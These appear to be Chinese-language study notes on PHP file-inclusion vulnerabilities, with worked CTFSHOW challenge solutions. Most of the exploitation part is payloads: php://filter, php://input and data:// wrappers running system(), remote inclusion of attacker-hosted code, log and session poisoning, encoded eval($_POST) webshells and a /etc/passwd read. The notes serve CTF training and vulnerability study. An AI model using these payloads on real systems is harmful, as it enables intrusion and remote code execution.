

\#文件包含-原理&分类&利用&修复

1、原理

程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，

直接调用此文件，而无须再次编写，这种调用文件的过程一般被称为文件包含。

在包含文件的过程中，如果文件能进行控制，则存储文件包含漏洞

 

1.1、分类

本地包含-Local File Include-==LFI==

远程包含-Remote File Include-===RFI==

差异原因：代码过滤和环境配置文件开关决定

 

2、白盒审计：（CTFSHOW）

-白盒发现：

1、可通过应用功能追踪代码定位审计

2、可通过脚本特定函数搜索定位审计

3、可通过伪协议玩法绕过相关修复等

==PHP：include、require、include_once、require_once等==

include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行

require函数出现错误的时候，会直接报错并退出程序的执行

Java：java.io.File、java.io.FileReader等

ASP.NET：System.IO.FileStream、System.IO.StreamReader等

3、黑盒分析：

-黑盒发现：主要观察参数传递的数据和文件名是否对应

URL中有path、dir、file、pag、page、archive、p、eng、语言文件等相关字眼

 

4、利用

本地利用思路：

1、配合文件上传

2、无文件包含日志

3、无文件包含SESSION

4、无文件支持伪协议利用

参考：https://blog.csdn.net/unexpectedthing/article/details/121276653

-文件读取：

file:///etc/passwd

php://filter/read=convert.base64-encode/resource=phpinfo.php

-文件写入：

php://filter/write=convert.base64-encode/resource=phpinfo.php

php://input POST:<?php                                                        ?>'); ?>

-代码执行：

php://input POST:<?php phpinfo();?>

data://text/plain,<?php phpinfo();?>

data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

远程利用思路：

直接搭建一个可访问的远程URL包含文件

 

5、修复见网上参考方案

 

\#黑盒利用-VULWEB-有无包含文件

http://testphp.vulnweb.com/showimage.php?file=index.php

 

\#白盒利用-CTFSHOW-伪协议玩法

https://ctf.show/challenges

78-php&http协议

payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

payload: ?file=php://input post:<?php system('tac flag.php');?>

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>

 

79-data&http协议

payload: ?file=data://text/plain,<?=system('tac flag.*');?>

payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==

payload: ?file=http://www.xiaodi8.com/1.txt 1.txt:<?php system('tac flag.php');?>

 

80 81-日志包含

1、利用其他协议,如file,zlib等

2、利用日志记录UA特性包含执行

分析需文件名及带有php关键字放弃

故利用日志记录UA信息，UA带入代码

包含：/var/log/nginx/access.log

 

82-86-SESSION包含

利用PHP_SESSION_UPLOAD_PROGRESS进行文件包含

自定义session名字，条件竞争访问session文件，触发创建新文件

<!DOCTYPE html>

<html>

<body>

<form action="http://xxxx.ctf.show/" method="POST" enctype="multipart/form-data">

  <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="<?php                                                     ?>'?>" />

  <input type="file" name="file" />

  <input type="submit" value="submit" />

</form>

</body>

</html>

https://www.cnblogs.com/lnterpreter/p/14086164.html

https://www.cnblogs.com/echoDetected/p/13976405.html

 

87-php://filter/write&加密编码

1、利用base64:

url编码2次：php://filter/write=convert.base64-decode/resource=123.php 

content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==

2、利用凯撒13：

url编码2次：php://filter/write=string.rot13/resource=2.php

content=<?cuc riny($_CBFG[1]);?>

 

88-data&base64协议

过滤PHP，各种符号，php代码编码写出无符号base64值

Payload：file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk

 

117-php://filter/write&新的算法

convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用

<?php

                                                            ?>');

echo "经过一次反转:".$result."\n";

echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);

?>

Payload：file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php

contents=?<hp pvela$(P_SO[T]a;)>?